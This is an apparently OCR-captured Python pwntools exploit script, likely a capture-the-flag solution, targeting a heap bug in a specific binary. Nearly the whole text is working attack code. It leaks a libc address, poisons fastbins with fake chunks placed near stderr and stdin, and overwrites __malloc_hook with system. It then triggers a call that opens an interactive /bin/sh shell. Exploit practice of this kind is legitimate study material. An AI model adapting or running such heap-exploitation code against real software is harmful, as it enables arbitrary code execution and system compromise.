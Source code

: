 ```python
show()
p.recvuntil(b'abc')
libc_leak = u64(p.recv(6) + b'\0\0')
libc.address = libc_leak - 0x39c540
print(hex(libc_leak))
print(hex(libc.address))

# set size stderr+5 and fake chunk
ptr = 0x404058
sym_size = 0x404050
payload = b'\x31' + b'\x00'*18 + b'\0' * 8 + p64(exe.sym['stderr']) # set ptr == stderr
payload = payload.ljust(91, b'a')
payload += p64(0x41)
edit(payload)

# add stderr + 5 to fast bins 0x30
add(32, b'a'*8)
delete()
edit(p64(exe.sym['stdin'] + 5))
add(32, b'a' * 8)

# add fake chunk to fast bins 0x40
add(48, b'a'*8)
delete()
edit(p64(0x4040a0 - 0x10))
add(48, b'a'*8)

# set /bin/sh to fake chunk and set nextsize Size
add(48, b'/bin/sh\0' + b'\0'*16 + p64(0x101))

# set ptr == size and free(size)
payload = b'\0'*3 + p64(0x71) + b'\x00'*8  + p64(exe.sym['size'])
add(32, payload)
delete()

# ow malloc_hook
edit(p64(libc.sym['__malloc_hook'] - 35))
add(size, b'a' * 8)
add(size, b'\0' * 19 + p64(libc.sym['system']))


# get shell
p.sendlineafter(b'> ', b'1')
p.sendlineafter(b'Size: ', str(0x4040a0))

p.interactive()
```
